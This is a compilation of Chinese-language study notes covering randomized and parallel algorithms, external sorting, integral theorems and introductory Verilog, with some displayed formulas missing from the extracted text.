对于一些复杂的计算问题，确定性算法可能需要耗费大量的时间和资源，而随机算法可以在合理的时间内提供一个近似解。例如，蒙特卡罗方法在计算高维积分时表现出色。
在某些情况下，输入数据可能具有不确定性或噪声，随机算法可以更好地处理这些不确定性。例如，随机森林算法在处理有噪声的数据时表现良好。
有些问题的确定性算法设计非常复杂，而随机算法可以提供一种更为简单和直接的解决方案。例如，拉斯维加斯算法在找到正确解之前会不断尝试，设计相对简单。
在分布式计算环境中，随机算法可以有效地分配任务，减少通信开销，提高计算效率。例如，哈希算法在分布式系统中的负载均衡中起到了重要作用。
随机算法分为以下两种
随机算法
-
拉斯维加斯算法(Las Vegas Algorithm): 这种算法在每次运行时都会使用随机性，但它保证最终会找到一个正确的解。也就是说，拉斯维加斯算法的输出总是正确的，但运行时间可能会有所不同。一个典型的例子是快速排序算法的随机化版本，它通过随机选择枢轴来提高平均性能。 (randomized algorithms that are always correct, and run efficiently in expectation)
-
蒙特卡罗算法(Monte Carlo Algorithm): 这种算法在每次运行时都会使用随机性，但它不一定能找到一个正确的解。也就是说，蒙特卡罗算法的输出可能不正确，但运行时间通常是固定的。一个典型的例子是蒙特卡罗方法在计算高维积分时表现出色。(efficient randomized algorithms that only need to yield the correct answer with high probability)
雇佣问题(The Hiring Problem)¶
- 从猎头公司雇佣一名办公室助理
- 每天面试不同的申请者，持续 \(N\) 天
- 面试成本 \(C_i\) 远小于 雇佣成本 \(C_h\)
- 分析面试和雇佣成本而不是运行时间
假设雇佣了 \(M\) 个人。 总成本：\(O(NC_i + MC_h)\)
Naive solution:
int Hiring ( EventType C[ ], int N )
{ /* candidate 0 is a least-qualified dummy candidate */
int Best = 0;
int BestQ = the quality of candidate 0;
for ( i=1; i<=N; i++ ) {
Qi = interview( i ); /* Ci */
if ( Qi > BestQ ) {
BestQ = Qi;
Best = i;
hire( i ); /* Ch */
}
}
return Best;
}
最坏情况是面试者始终比前一个面试者优秀，那么需要面试 \(N\) 次，雇佣 \(N\) 次，总成本为 \(O(NC_h)\)。
假设\(N\)个面试者以随机顺序被试，前\(i\)个候选人中的任何一个都同样有可能是迄今为止最合格的。
即第\(i\)个人被选中的概率相当于\(i\)个球的盒子中随机抽取一个球，抽到最好球的概率，为\(\frac{1}{i}\)。
定义随机变量\(X_i\)
定义随机变量 \(X_i\) 如下：
候选人 \(i\) 被雇佣的概率为 \(\frac{1}{i}\)。
总的雇佣次数 \(X\) 为：
期望值为：
因此，期望总雇佣次数为：
总成本为 \(O(C_h \ln N + NC_i)\)。
int RandomizedHiring ( EventType C[ ], int N )
{ /* candidate 0 is a least-qualified dummy candidate */
int Best = 0;
int BestQ = the quality of candidate 0;
randomly permute the list of candidates;//takes time
for ( i=1; i<=N; i++ ) {
Qi = interview( i ); /* Ci */
if ( Qi > BestQ ) {
BestQ = Qi;
Best = i;
hire( i ); /* Ch */
}
}
}
算法的关键在于生成随机排列。
Assign each element A[ i ] a random priority P[ i ],and sort
void PermuteBySorting ( ElemType A[ ], int N )
{
for ( i=1; i<=N; i++ )
A[i].P = 1 + rand()%(N^3);
/* makes it more likely that all priorities are unique */
Sort A, using P as the sort keys;
}
如果只Hire一个：
int OnlineHiring ( EventType C[ ], int N, int k )
{
int Best = N;
int BestQ = - ;
for ( i=1; i<=k; i++ ) {
Qi = interview( i );
if ( Qi > BestQ ) BestQ = Qi;
}
for ( i=k+1; i<=N; i++ ) {
Qi = interview( i );
if ( Qi > BestQ ) {
Best = i;
break;
}
}
return Best;
}
先随机挑选k个面试，取出其中最好的，然后从第k+1个开始，如果比最好的还好的话，就雇佣。
\( S_i \): 第 \( i \) 个申请者是最好的
要使 \( S_i \) 成立，需要满足：
- \( A \): 最好的申请者在位置 \( i \);概率为 \(\frac{1}{N}\)
- \( B \): 在位置 \( k+1 \) 到 \( i-1 \) 没有人被雇佣，也就是说，1到 \( i-1 \) 中没有比挑出的 \( k \) 个更好的(前 \( i-1 \) 个中最好的在\(k\)个中)，概率为 \(\frac{k}{(i-1)}\)
概率计算：
其被以下这个积分式子bound住
对于给定的 \( k \)，雇佣到最优候选人的概率满足：
为了最大化这个概率，我们需要找到最佳的 \( k \) 值：
通过求导并设导数为零，我们得到：
这意味着：
带入
随机化快速排序¶
对于传统的快速排序，最坏情况是每次选择的pivot都是最小或最大值，导致每次划分都只能减少一个元素，导致时间复杂度为\(O(N^2)\)。
其平均时间复杂度为\(O(N\log N)\)。
如果我们随机选择pivot，并希望这个pivot满足：
中心分割:= 选择一个枢轴，使得每一侧至少包含 \(\frac{n}{4}\) 个元素
改进快速排序:= 在递归之前总是选择一个中心分割
期望意义下两次选中
The expected number of iterations needed until we find a central splitter is at most 2.
每一次，选中的概率是\(\frac{1}{2}\)，需要选一个中心分割，所以n次伯努利试验期望意义下需要选两次，n=2。 或者，以几何分布的眼光来看，成功的概率是\(\frac{1}{2}\)，所以期望意义下需要选两次。
定义：
Type \( j \): the subproblem \( S \) is of type \( j \) if \( N \left( \frac{3}{4} \right)^{j+1} \leq |S| \leq N \left( \frac{3}{4} \right)^j \)
推出: There are at most \( \left( \frac{4}{3} \right)^{j+1} \) subproblems of type \( j \).
因为下界要小于\(N\)
一个typej的期望成本为
不同的type的个数为
Number of different types = \( \log_{4/3} N = O(\log N) \)
This results in a total complexity of \( O(N \log N) \).
并行算法¶
约 5345 个字 10 行代码 预计阅读时间 19 分钟
并行算法的设计是为了提高计算效率和性能。随着数据量的增加和计算任务的复杂化，单一处理器的计算能力已经无法满足需求。通过并行算法，可以将一个大的计算任务分解成多个小任务，并行执行，从而显著减少计算时间 。从而更好利用现代计算机多核的优势
概念与定理¶
Definition
加速比 (Speedup) 是指在并行计算中，使用 \( p \) 个处理器时相对于使用一个处理器时的性能提升比例，记为 \( S(p) \)，
其中 \( T_1 \) 是使用一个处理器时的运行时间，\( T_p \) 是使用 \( p \) 个处理器时的运行时间。
理想加速比:
内存共享方式
-
EREW (Exclusive Read Exclusive Write): 每个内存位置在任意时刻只能被一个处理器读取或写入；
-
CREW (Concurrent Read Exclusive Write): 每个内存位置在任意时刻可以被多个处理器读取，但只能被一个处理器写入；
-
CRCW (Concurrent Read Concurrent Write): 每个内存位置在任意时刻可以被多个处理器读取或写入，因为写入涉及到同时写入不同值可能造成的冲突。因此写入策略可以分如下三种:
(a) CRCW-C (Common): 所有处理器写入的值相同时才会写入；
(b) CRCW-A (Arbitrary): 所有处理器写入的值可以不同，任意读取其中一个写入即可；
© CRCW-P (Priority): 所有处理器写入的值可以不同，但存在一个优先级，只有优先级最高的写入才会生效。
阿姆达尔定律
设 \( 0 \leqslant f \leqslant 1 \) 是一个程序中必须串行执行的部分的比例，那么使用 \( p \) 个处理器的最大加速比 \( S(p) \) 满足
证明: 设整个程序中串行部分的时间为 \( t \)，那么串行部分的时间为 \( ft \)，并行部分的时间为 \( (1-f)t \)。使用 \( p \) 个处理器时，串行部分的时间不变，而并行部分的时间最少为 \( (1-f)t/p \)，因此总的时间最少为 \( ft + (1-f)t/p \)，因此加速比最大为
这个定律假定串行部分不可独立于问题大小
Gustafson定律
设某个程序使用 \( p \) 个处理器并行执行时，串行部分花费的时间为 \( f_1 \)（不是比例），并行部分花费的时间为 \( f_2 \)，那么使用 \( p \) 个处理器的最大加速比 \( S(p) \) 满足
证明: 由此可知，使用 \( p \) 个处理器并行执行的时间为 \( T_p = f_1 + f_2 \)，使用一个处理器单件执行的时间应当为 \( T_1 = f_1 + f_2 \cdot p \)，因此加速比为
孙-倪定律
定理 14.4 (孙-倪定律, 1990) 设某个程序串行部分占比为 \( f \)，并行部分占比为 \( 1-f \)，内存受限函数为 \( G(p) \)，那么使用 \( p \) 个处理器的最大加速比 \( S(p) \) 满足
Definition
\(D\) 具有无穷多个处理器时的时间
\(W\) 是使用一个处理器时的时间
定义为算法的平均并行度
布伦特定律
定理 14.5 (布伦特定律, Brent's Theorem) 设一个并行计算用到的工作量为 \( W \)，关键路径长度为 \( D \)，那么使用 \( p \) 个处理器的并行时间满足如下不等式：
证明: 下界是显然的，因为 \( T_p \geqslant T_{\infty} \)，而 \( T_{\infty} \) 也是受理想模型加速比的限制的，因此 \( T_p \geqslant W/p \)。
对于上界，因为关键路径长度为 \( D \)，因此能够并行执行的计算可以分为 \( D \) 个内部任务，互相之间有前后的依赖，设每个阶段的工作量为 \( W_i \)，则有
使用 \( p \) 个处理器时，每一个阶段所需的时间为 \( \lceil W_i/p \rceil \)，向上取整的原因在于，每个阶段的工作量可能不能被整除。因此如果任务分成了 7 个任务，每个任务有 3 个处理器，那么每个处理器会分到的任务个数是 2, 2, 3。
因此我们需要的时间就是
其中我们使用了等式
前缀和问题¶
首先，对于求和问题，可以转换为二叉树的求和问题，每个节点表示一个求和操作，每个节点有两个子节点，分别表示两个求和操作。
对于前缀和问题，先定义如下式子
其中 \( h \) 表示树的高度，\( i \) 表示树的第 \( i \) 个节点，\( \alpha \) 表示树的最右下角节点的 \( i \) 值，\( A(k) \) 表示数组 \( A \) 的第 \( k \) 个元素。
在计算前缀和时，先从上往下计算得到每一个部分和的\(B\)值，然后从下往上计算得到每一个部分和的\(C\)值。
并且运用以下性质
-
如果 \( i = 1 \)，那么 \( C(h, i) = B(h, i) \)，这是因为 \( i = 1 \) 的时候，根据定义，\( C(h, 1) \) 是从第 1 个元素加到这 \( i \) 点为根的子树右下角的叶子节点。而 \( B(h, 1) \) 实际上也就是从第一个元素加到这 \( i \) 点为根的子树右下角的叶子（看图可以很清楚地看出）。
-
如果 \( i \) 是偶数，这表明这 \( i \) 点是其父点的右儿子，因此它和它的父亲根右下角的叶子是同一个，因此有 \( C(h, i) = C(h + 1, i/2) \);
-
如果 \( i \) 是奇数且不是 1，这表明这一点是某个点的左儿子，首先它自己的值 \( B(h, i) \) 不是从 1 开始加的，所以我们要选一个左边的点，把从 1 开始加到这个点对应的之前的部分补上，即 \( C(h, i) = C(h + 1, (i - 1)/2) + B(h, i) \)。需要注意的是，如果不是并行算法，\( C(h + 1, (i - 1)/2) \) 可以替换为 \( C(h, i - 1) \)，但因为并行算法要求每一行是一起算出来的，所以要用上一行的才合理。或者用他父亲的\(C\)减去他兄弟的\(B\)
归并问题¶
归并 - 将两个非递减数组 \( A(1), A(2), \ldots, A(n) \) 和 \( B(1), B(2), \ldots, B(m) \) 归并成另一个非递减数组 \( C(1), C(2), \ldots, C(n+m) \)
直接查找¶
Idea
既然我们可以设计并行算法，那么如果我们能同时将所有 \( A \) 和 \( B \) 中的元素在最后的数组 \( C \) 中的位置找到，然后同时将它们放到正确的位置上，那么我们就可以以很快的速度解决这一问题
这里的关键步骤就是同时找到 \( A \) 和 \( B \) 中的元素在 \( C \) 中的位置，这是一个并不困难的问题。例如对 \( A \) 中的元素 \( A[i] \)，它在 \( A \) 中恰是 \( i+1 \) 个元素（下标从 0 开始），即在它前面有 \( i \) 个元素。如果我们能找到它在 \( B \) 中处于
的位置，那么 \( B \) 中有 \( l+1 \) 个元素在合并后的 \( C \) 中位于 \( A[i] \) 前面。因此此时 \( A[i] \) 在 \( C \) 中的位置就是 \( C[i + l + 1] \)，这样它前面就有 \( i + (l + 1) \) 个元素。对 \( B \) 中的元素 \( B[k] \) 也有类似的分析。
for Pi , 1 <= i <= n pardo
C(i + RANK(i, B)) := A(i)
for Pi , 1 <= i <= n pardo
C(i + RANK(i, A)) := B(i)
有两种策略
-
逐个元素二分查找: 使用二分查找定位到一个元素在另一个数组中的位置其需要 \( O(\log n) \) 的时间，即 \( D = O(\log n) \)，总工作量为 \( O(n \log n) \)；然后我们需要将所有元素放到正确的位置上。这一步复杂为 \( O(1) \)，总工作量为 \( O(n) \) (如果数组长度不同则是 \( O(n+m) \))，两步合起来复杂为 \( O(\log n) \)，总工作量为 \( O(n \log n) \)。
-
整体性查找: 伪代码如下
i = j = 0;
while ( i <= n || j <= m ) {
if ( A(i+1) < B(j+1) )
RANK(++i, B) = j;
else RANK(++j, A) = i;
}
实际上和归并排序的操作并无本质差别，就是两个数组的元素从头依次向后比较，因此完全没有并行，深度和总工作量都是 \( O(n) \)（或者数组长度不同就是 \( O(m + n) \)）
划分范式¶
划分范式的想法非常简单，且实际运用起来非常有效，分为如下两个步骤：
-
划分 (partitioning): 把问题划分为多（设为 \( p \) 个）很小的子问题。每个子问题大小大致为 \( n/p \)；
-
实际工作 (actual work): 同时对所有子问题进行处理，得到最终结果。
划分：我们将每个数组划分为 \( p \) 份（此时 \( p \) 未知，分析后我们可以选取到最优的 \( p \)），\( p \) 是一个很大的值，每个子问题很小，如 PPT 第 17 页图所示。我们首先对每个子问题的第一个元素求出它们在另一个数组的位置，这一步应当使用二分查找，否则因为子问题很多，使用线性查找会导致总工作量达到 \( O(p \cdot n) \)，这几乎是平方级别的工作量，显然是不可接受的；因此我们使用二分查找，这样深度为 \( O(\log n) \)，总工作量为 \( O(p \log n) \)；
真实工作：现在剩下的工作就是相邻两个箭头之间的部分需要在这一很小的区域内确认相对位置，因为这些位置确定后直接可以根据上一步划分中得到的结果确定在整 个最终的数组中的位置。
注意，很显然的一点是，这些箭头不会交叉，这是由箭头代表的大小关系决定的。另一方面，相邻两个箭头之间的距离一定不超过 \( n/p \)，因为一旦超过 \( n/p \)，那其中一定会有一个箭头（箭头出现的频率是每 \( n/p \) 个元素一次）。并且一个数组上有 \( p \) 个出发的位置和 \( p \) 个到达的位置，所以在任意一个数组上，出发点和到达点一共最多有 \( 2p \) 个。然后两个数组的这些划分区域按图中形式一一对应进行计算，每个区域实际上就是一个子问题，即现在还剩下 \( 2p \) 个大小为 \( O(n/p) \) 的子问题。这时我们并行对每个子问题直接使用线性查找即可，因为每个子问题都非常小（大小为 \( O(n/p) \)），此时深度为 \( O(n/p) \) 也很小，总工作量为 \( 2p \cdot O(n/p) = O(n) \) 是符合要求的。而如果使用二分查找，总工作量为
这是因为有 \( 2p \) 个子问题，每个子问题都至多有 \( \frac{n}{p} \) 个元素要用至多 \( \log \left( \frac{n}{p} \right) \) 的时间确定位置，这并无法保证是 \( O(n) \) 的。
现在的问题就在于，还有两个时间复杂度未定：第一步划分的总工作量为 \( O(p \log n) \)，第二步真实工作的深度为 \( O(n/p) \)。我们希望找到一个最优的 \( p \)，使得第一步总工作量是 \( O(n) \) 的，第二步深度是 \( O(\log n) \) 的。这样我们就可以得到一个深度为 \( O(\log n) \)，总工作量为 \( O(n) \) 的并行算法，成功做到取长补短。事实上，我们很容易看出，\( p = \frac{n}{\log n} \) 就是满足条件的，因此我们就选取这个 \( p \)，得到了一个深度为 \( O(\log n) \)，总工作量为 \( O(n) \) 的并行算法。
寻找最大元素¶
给定一组数列 \( A \)，要求找到其中最大的元素。
不使用划分范式¶
类似于前面求和问题的做法，构造一棵二叉树，初始元素两两分组比较，然后逐层上递，最终得到最大值。这样的算法深度为 \( O(\log n) \)，总工作量为 \( O(n) \)
我们可以采取更激进的策略：为什么不一次性比较所有元素呢？这样深度只需 \( O(1) \)。如果不考虑总工作量过大的问题，这种方法是可行的：并行比较每一对元素 \( A[i] \) 和 \( A[j] \)，只要 \( A[i] \) 在比较中较小，就在新数组 \( B[i] \) 中写入 1（初始时 \( B \) 的所有位置为 0）。最终，最大的元素从未被写入 1，因此仍为 0。我们并行检查 \( B \) 中哪个元素为 0，即为最大值。
这类似于一场混战，每个人都要与他人对战，胜者留下，败者离场。最后留下的就是最大者。
在并行比较每对元素时，可能会有多个线程同时写入数组 \( B \)。实际上，我们只需使用前面提到的 CRCW 策略，允许同时写入，并按 common 规则写入即可，因为所有线程在任意 \( B[i] \) 处只会写入数字 1，故用 common 规则即可实现写入。
显然，这种算法的深度非常理想，为 \( O(1) \)，但总工作量主要在于比较每对元素的值，因此为 \( O(n^2) \)。如果能在总工作量和深度上取长补短，这两种方法将非常完美。
双对数划分范式(double logarithmic partitioning)¶
双对数范式是一种可以二叉树的扩展。在完全二叉树中，设叶子的数量为 \( n \)，那么树高是 \( \log n \) 级别的， 这里双对数则是希望构造一棵树，使得树高是 \( \log \log n \) 级别的。为了构造这样一棵树，我们首先设树 中每个节点的 level 为从根到该节点的距离（需要经过的边数），根的 level 为 0。接下来我们构造这棵 树如下：
-
设某个节点的 level 为 \( s \)，当 \( s \leq \log \log n - 1 \) 时，则它有 \( 2^{2^{h-s-1}} \) 个孩子；
-
当 \( s = \log \log n \) 时，它有 2 个孩子作为树的叶子。
事实上，我们可以观察到，当一个节点的层级（level）为 \( s \) 且不在倒数两行时，根据定义，它有 \( 2^{2^{h-s-1}} \) 个孩子。以该节点为根的子树的叶子数量可以计算为 \( 2^{2^{h-s}} \)。我们知道：
这意味着在每个节点处，我们实际上将问题分成了 \( \sqrt{m} \) 个子问题，其中 \( m \) 是该节点对应的子树的叶子数量。我们知道，在双对数树中，某一层单个节点为根的子树的叶子数，其实是上一层某个节点为根的子树的叶子数的平方根（因为层数为 \( s \) 的某个节点，以它为根的子树的叶子数量是 \( 2^{2^{h-s}} \)，每增加一层 \( s \) 实际上就是开一次平方根）。因此，层数越往下，子问题的大小逐步开平方根。
假设原问题的输入大小为 \( n \)，我们可以通过添加一些虚拟节点（dummy nodes）来构造出以这 \( n \) 个节点为叶子的双对数树。这样，我们就可以使用双对数范式来设计一个并行算法，即在每一层将问题分为 \( \sqrt{m} \) 个子问题，其中 \( m \) 是这一层单个节点为根的子树的叶子数量。这样，每个子问题（实际上就是树上的某个节点）对应的叶子数也就是 \( \sqrt{m} \)，这就与双对数树结合起来了。我们熟知的二叉树则是每层分成两个子问题，是更简单的策略。
将这一思路套用在我们的问题上：我们首先将数组划分为 \( \sqrt{n} \) 份，每一份的大小为 \( \sqrt{n} \)，然后我们并行递归找到每一份中的最大值，最后在归并阶段再并行找到这 \( \sqrt{n} \) 个最大值中的最大值即可。设整个算法深度为 \( D(n) \)，工作量为 \( W(n) \)，它们都是关于数组长度的函数。每一份中的最大值我们采用递归的策略，因此长度为 \( \sqrt{n} \) 的数组的最大值的寻找需要 \( D(\sqrt{n}) \) 的深度和 \( W(\sqrt{n}) \) 的总工作量。以上是递归阶段，在归并阶段，返回的 \( \sqrt{n} \) 个最大值中的最大值我们采用前面的两两比较的方法即可，深度为 \( O(1) \)，总工作量为 \( O((\sqrt{n})^2) = O(n) \)。于是我们按照分治法的方式可以写出递推式
换元法得到 \(D(n) = O(\log \log n)\)，\(W(n) = O(n \log \log n)\)。
加速级联范式(accelerated cascade)¶
- 将数组分为 \( \frac{n}{\log \log n} \) 份，即每一份的大小为 \( \log \log n \)，实际上每一份的大小都很小了，所以我们可以直接利用线性查找的方式找到每一份的最大值，则每一份的深度和工作量都是 \( O(\log \log n) \) 的；
- 然后我们对上面求出的 \( \frac{n}{\log \log n} \) 个最大值使用双对数范式的算法。
总的深度为每一份的深度加上双对数范式的深度，即
总工作量为每一份的工作量之和加上双对数范式的总工作量，即
随机算法¶
看起来我们还有改进的空间，毕竟当初暴力的两两比较方法能实现 O(1) 的深度。接下来的随机算法，它可以保证以非常高的概率在 O(1) 的深度和 O(n) 的工作量内找到最大值。
-
第一步: 从长度为 \( n \) 的数组 \( A \) 中，依照均匀分布取出 \( n^{7/8} \) 个元素，得到新的数组记为 \( B \)。这一步需要 \( n^{7/8} \) 个处理器各自负责抽一个然后放到内存中某个位置，深度为 \( O(1) \)，总工作量为 \( O(n^{7/8}) \)。
-
第二步: 求出 \( B \) 中的最大值，使用确定性的算法实现，通过如下三个子步骤实现：
- 把 \( B \) 分成 \( n^{3/4} \) 个长度为 \( n^{1/8} \) 的子数组，然后使用两两比较的暴力算法并行找到每个子数组的最大值。这一步深度为 \( O(1) \)，总工作量为 \( O(n^{3/4} \cdot (n^{1/8})^2) = O(n) \)，因为有 \( n^{3/4} \) 个子数组，每个子数组用两两比较的办法的复杂度是数组长度平方级别的；然后将这 \( n^{3/4} \) 个最大值放在新数组 \( C \) 中。
- 把 \( C \) 分成 \( n^{1/2} \) 个长度为 \( n^{1/4} \) 的子数组，然后使用两两比较的暴力算法并行找到每个子数组的最大值。这一步深度为 \( O(1) \)，总工作量为 \( O(n^{1/2} \cdot (n^{1/4})^2) = O(n) \)，然后将这 \( n^{1/2} \) 个最大值放在新数组 \( D \) 中。
- 数组 \( D \) 直接使用两两比较的方法找到最大值。这一步深度为 \( O(1) \)，总工作量为 \( O((n^{1/2})^2) = O(n) \)。
综合上述方法，整个第二步相当于一个三轮的淘汰赛，整体而言第二步的深度为 \( O(1) \)，总工作量为 \( O(n) \)，并且我们能求出 \( B \) 中的最大值，也就是抽取的 \( n^{7/8} \) 个元素中的最大值。
第三步：目前我们只得到了 \( n^{7/8} \) 个元素中的最大值（记为 \( M \)）。如何进一步提高概率呢？答案是再来一轮，但这再来一轮是有讲究的。这一步我们首先均匀分布取出 \( n^{7/8} \) 个元素，得到数组 \( B \)。然后用 \( n \) 个处理器，每个处理器放 \( A \) 的一个元素，与前一步得到的 \( M \) 进行比较。如果小于 \( M \)，则什么也不用做；大于 \( M \) 则往数组 \( B \) 的一个随机位置写入这一更大的值。为什么要随机写入呢？因为一共 \( n \) 个处理器，但只有 \( n^{7/8} \) 个位置可供选择，不能一一对应位置供每个处理器使用，但我们又要在 \( O(1) \) 时间内完成位置分配，只能是随机了。写完后，我们再次求出更新后的 \( B \) 中的最大值。这一步的深度和工作量与第二步相同，因此是 \( O(1) \) 的深度和 \( O(n) \) 的工作量。
以上算法以非常高的概率在 \( O(1) \) 的深度和 \( O(n) \) 的工作量内找到数组 \( A \) 中的最大值：存在常数 \( c \)，使得算法只有 \( \frac{1}{n^c} \) 的概率无法在这一时间复杂度内找到最大值。
外部排序(External Sorting)¶
约 1912 个字 预计阅读时间 7 分钟
大部分排序算法都依赖于内存可以直接寻址的特性，但是如果数据输入在磁带上，由于磁带只能被顺序访问，所以适合用于外部排序的排序算法是归并排序。
简单做法¶
假设一开始数据存在磁带\(T_1\)上，外部内存容量是3，则依次读取3个数据为一组，交替放在磁带\(T_2\)和\(T_3\)上，然后按对应归并\(T_2\)和\(T_3\)上的数据，结果交替放在\(T_1\)和\(T_4\)上，然后重复这个过程，直到所有数据都排序完成。
Definition
- run: 每组排好序的数据称为一个run
- pass: 将所有数据读过一遍的称为一个pass
对于上述的例子，需要第一次从\(T_1\)读的一个pass加上下面三个归并的过程，一共有\(1+3=4\)个pass。
对于\(N\)个数据，如果外部内存容量是\(M\)，则需要\(1+\lceil \log_2(N/ M) \rceil\)个pass。
K-way Merge¶
第一个优化方向就是减少工作的趟数，显然如果我们使用 k 路的归并，也就是每次归并 k 条纸带上对应位置的顺串，那么每次合并后顺串长度增加 k 倍，因此加上初始的 1 趟，我们只需要$ 1 + \lceil \log_k(N/M) \rceil $趟即可完成排序，减少了趟数，因此减少了磁带移动的次数，从而减少总时间。这样的算法称为 k 路合并。
k 路合并有一个实现上需要注意的点，因为我们是 k 个顺串要合并，因此我们需要不断的在 k 个元素中选取最小值放到输出的磁带上，这个操作可以使用优先队列来实现。
Key-point
对于k路合并，需要\(2k\)个tape。
多相合并¶
为了优化多路合并对于磁带数的成本，我们考虑多相合并，这种方法对于多路合并的磁带成本可以从\(2k\)减少到\(k+1\)。
首先，假设我们有三个磁带，使用2-way merge:
设有三盘磁带\(T_1、T_2\)和\(T_3\)。在\(T_1\)上有一个输入文件，它将产生\(34\)个顺串(run)。我们可以选择在\(T_2\)和\(T_3\)的每一盘磁带中放入\(17\)个顺串。然后，将结果合并到\(T_1\)上，得到一盘有\(17\)个顺串的磁带。由于所有的顺串都在一盘磁带上，因此我们必须将其中的一些顺串放到\(T_2\)上以进行另一次合并。合并的逻辑是将前\(8\)个顺串从\(T_1\)拷贝到\(T_2\)并进行合并。这样做的结果是，每次合并都需要额外的复制工作，而复制也需要磁头的移动，这是一项昂贵的操作，因此这种方法并不好。如果我们继续完成所有步骤，我们会发现总共需要\(1\)次初始操作\(+6\)次合并工作，外加\(5\)次复制操作,This sucks.
另一种选择是把原始的 \(34\)个顺串不均衡地分成两份。设我们把\(21\)个顺串放到\(T_2\)上，而把\(13\)个顺串放到\(T_3\)上。然后，在\(T_3\)用完之前将\(13\)个顺串合并到\(T_1\)上。然后我们可以将具有\(13\)个顺串的\(T_1\)和\(8\)个顺串的\(T_2\)合并到\(T_3\)上。此时，我们合并\(8\)个顺串直到\(T_2\)用完为止，这样，在\(T_1\)上将留下\(5\)个顺串，而在\(T_3\)上则有\(8\)个顺串。然后，我们再合并\(T_1\)和\(T_3\)，等等，直到合并结束。
详细过程
最后使用了\(1+7=8\)个pass。
事实上，我们给出的最初 21 + 13 的分配是最优的，否则都可能出现上面的需要复制或者有长短不对齐导致浪费的情况。如果顺串的个数是一个斐波那契数 \( F_n \)，那么分配这些顺串最好的方式是把它们分裂成两个斐波那契数 \( F_{n-1} \) 和 \( F_{n-2} \)。否则，为了将顺串的个数补足成一个斐波那契数就必须用一些哑顺串（dummy run）来填补磁带。
将上述算法应用到k-way merge，则需要k阶斐波那契数。
定义为
且
经过第一个pass之后,k+1个tape的结构如下
然后合并1-k个tape，结果放在tapek+1上，结果如下
此时我们的顺串个数分布与之前的是类似的，只是下标减了 1，因此我们可以继续合并除磁带 k 外每个磁带的前 \( F^{(k)}(n-2) \) 个顺串，将合并后的结果放到磁带 k 上，以此类推，直到顺串个数为 1，此时我们就完成了排序。
缓存并行处理(copy from wyy's Handout)¶
在实现外部排序时，我们通常会分块读取数据，而不是每次比较后立即将一个元素写入磁盘。这样做会导致每次比较后都需要等待磁盘处理，耗费大量时间。在2路合并中，内存应划分为2个输入缓存区和1个输出缓存区。输入缓存区用于存放从磁盘读取的数据，两个输入缓存区的数据比较后，结果暂存于输出缓存区。当输出缓存区满时，再一次性写入磁盘。
然而，这种实现仍有问题：当输出缓存区写回磁盘时，内存中的操作会暂停。为解决此问题，我们将输出缓存区拆分为两个。当一个缓存区满并写回磁盘时，另一个缓存区继续接收数据，实现并行处理——一个在内存中操作，另一个进行I/O交互。
输入缓存区也类似。如果只有2个输入缓存区，当数据比较完时，我们必须等待新数据从磁盘读入。因此，我们将其进一步划分为4个输入缓存区。当两个缓存区的数据正在比较时，另外两个缓存区可以并行读取新数据。
这也解释了为什么在k路合并中，尽管趟数减少，但k过高并不一定更优。根据前述讨论，内存应划分为\(2k\)个输入缓存区和\(2\)个输出缓存区。当k很大时，输入缓存区被划分得很细，单次读取的数据量减少（即块大小降低），导致I/O操作增多。因此，尽管趟数减少降低了I/O成本，但并不一定更优。最优的k值与具体的硬件配置有关。
Note
划分为\(2k\)个输入缓存区和\(2\)个输出缓存区是因为需要\(k+1\)个tapes, \(k\) 个输入, \(1\)个输出, 然后为了一直工作,需要double buffer;
替换选择(replacement selection)¶
Ended: 高级数据结构与算法分析
数学分析 ↵
数学分析一，二的个人手写笔记¶
约 392 个字 预计阅读时间 1 分钟

各类积分的总结
- 定义在整个空间上的积分
- 定积分
- 双重积分
- 三重积分
- 定义在曲线上的积分
- 曲线积分
- 第一类曲线积分，计算可以使用参数方程，将曲线微分表示出来即可
- 第二类曲线积分，计算可以使用参数方程，将曲线微分表示出来，但是要根据方向来确定积分上下限；也可以使用Green公式和Stokes公式，将边界曲线积分转化为所围成曲面上的第一类面积分
- 曲面积分
- 第一类曲面积分，计算可以通过投影,通过计算法向量来计算投影角；从而将曲面积分转化为二重积分
- 第二类曲面积分，计算可以通过投影,通过计算法向量来计算投影角；从而将曲面积分转化为二重积分，在这个基础之上多了一步定向即 一投，二代，三定向 ；也可以使用Gauss公式，将曲面积分转化为所围成体积上的体积分
Gauss,Green,Stokes公式
- Gauss公式：\(\iint_S \vec{F}\cdot d\vec{S} = \iiint_V \nabla \cdot \vec{F}dV\)
- Green公式：\(\oint_C Pdx + Qdy = \iint_D (\frac{\partial Q}{\partial x} - \frac{\partial P}{\partial y})dxdy\)
- Stokes公式：\(\oint_C \vec{F}\cdot d\vec{r} = \iint_S \nabla \times \vec{F}\cdot d\vec{S}\) 实际上Green公式是Stokes公式在二维平面上的一个特例
Ended: 数学分析
Ended: 课程笔记
CS ↵
一些自学¶
约 18 个字
不定期更新
目前有
Verilog 学习笔记-入门篇¶
约 1011 个字 207 行代码 预计阅读时间 6 分钟
老师不教是吧,自己学
Verilog模块结构¶
Verilog模块大致如下
module name_of_module([端口列表]);
端口信号声明;
参数声明;
---
内部信号说明
assign 语句
底层模块或者门原调用(包括生成模块)
Initial 或 always 语句块
任务和函数定义
specify 块(路径延迟)
endmodule
- 常用语句只有三种
assign语句always语句- 底层模块调用语句
- 三种语句的顺序无关 ,这与C语言很不同
-
除一开始的
module和endmodule必须写之外,其他都是可选的 -
缩进在Verilog中并不重要,它主要使用
begin和end来分割 -
模块名是指电路的名字,由用户指定,最好与文件名一致
-
端口列表 是指电路的输入/输出信号名称列表,信号名由用户指定,各名称用逗号隔开;
-
端口信号声明 是要说明端口信号的输入输出属性、信号的数据类型,以及信号的位宽;输入输出属性有input,output,inout三种,信号的数据类型常用的有wire和reg两种;信号的位宽用[n1:n2]表示;同一类信号之间用逗号隔开;
- 信号位宽不做说明的话默认是1位,信号类型不做说明的话,默认是wire类型的
- 参数声明 要说明参数的名称和初值(例如
parameterreg A = 1'b1)
Example
二选一多路选择器的Verilog描述
边沿D触发器的Verilog描述 四位全加器assign语句¶
assign语句称作连续赋值语句,赋值目标必须是wire型的,wire表示电路间的连线.
基本格式: assign 赋值目标 = 表达式,更硬件地说assign的左边是一个电路的输入,另外一边是另一个电路的输出
例如
- 非:
assgin y = ~a - 与门:
assign y=a&b
特点:之所以称为连续赋值语句是指其总是处于激活状态,只要表达式中的操作数有变化,立即进行计算和赋值.(与连续赋值语句对应的另一种语句称为过程赋值语句)
Verilog具有丰富的表达式运算功能可以用于assign语句
| 操作类型 | 操作符 | 执行的操作 |
|---|---|---|
| 算术 | * |
乘 |
/ |
